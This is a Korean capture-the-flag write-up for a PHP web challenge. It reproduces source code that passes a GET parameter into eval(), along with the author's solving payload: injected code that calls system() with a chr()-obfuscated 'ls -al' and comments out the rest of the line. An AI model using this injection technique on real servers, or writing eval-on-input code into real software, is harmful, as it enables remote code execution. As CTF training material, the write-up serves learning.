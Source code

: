 ## No.27 Web bypass_filter[200]

**점수:** 200

**분야:** Web

**제목:** bypass_filter

다음과 같은 코드를 사용하는 사이트가 문제로 주어졌다.

eval을 보니 문제의 의도가 code injection일거라고 생각했다.

그래서 $\_GET['content']에 `files_imgfiles1{function i(){system(chr(108).chr(115).chr(32).chr(45).chr(97).chr(108));}}\n//` 형태로 보내주면 됐다.

eval에 한 줄로 적혀있으니 엔터 + // 를 하면 바로 주석 처리 가능했다.

ls를 적으며 살펴보았더니 답은 다음과 같은 위치에 존재했다.

http://223.194.105.182:23080/flag.yourawesome/flag.txt

```php
<?php

class Iamclassbecauseiamclass
{
    function i()
    {
                if($_GET['content']){
                    $content = $_GET['content'];
                    return $content;
                } else {
                    echo "<meta http-equiv='refresh' content='0;URL=\"./index.php?content=files_imgfiles1\"' /> ";
                }
    }
}

$class =  implode( '/', explode( '_', Iamclassbecauseiamclass::i() ) );

if( substr( $class, 0, 14 ) === 'files/imgfiles' and is_numeric( substr( $class, 14, 1 ) ) )
{
    $contentid = substr($class, 14);
    eval( "class Iamclass{$contentid} extends Iamclassbecauseiamclass { function i() { \$no = $contentid; if(\$no==1){ \$path='./files/images1';}return \$path; } }" );
}

$v = Iamclass1::i();
?>
<img src="<?php echo($v);echo("/0fed9c050dba713078325dfb028ceeb5.jpg")?>">
```
